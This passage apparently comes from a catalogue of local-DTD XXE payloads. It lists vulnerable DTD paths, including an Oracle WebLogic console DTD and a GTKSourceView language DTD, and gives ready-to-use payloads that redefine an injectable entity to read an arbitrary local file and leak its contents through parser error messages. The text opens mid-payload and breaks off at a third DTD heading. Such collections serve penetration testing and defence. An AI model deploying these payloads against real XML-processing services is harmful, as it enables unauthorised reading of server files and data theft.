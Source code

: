 ```
]>
<message></message>
```

 --- 

**DTD File:** `/u01/oracle/wlserver/server/lib/consoleapp/webapp/WEB-INF/struts-config_1_2.dtd`

**Injectable entity:** `%AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///u01/oracle/wlserver/server/lib/consoleapp/webapp/WEB-INF/struts-config_1_2.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
 ---

**DTD File:** `/usr/share/gtksourceview-4/language-specs/language.dtd`

**Injectable entity:** `%itemattrs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/gtksourceview-4/language-specs/language.dtd">

    <!ENTITY % itemattrs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd`
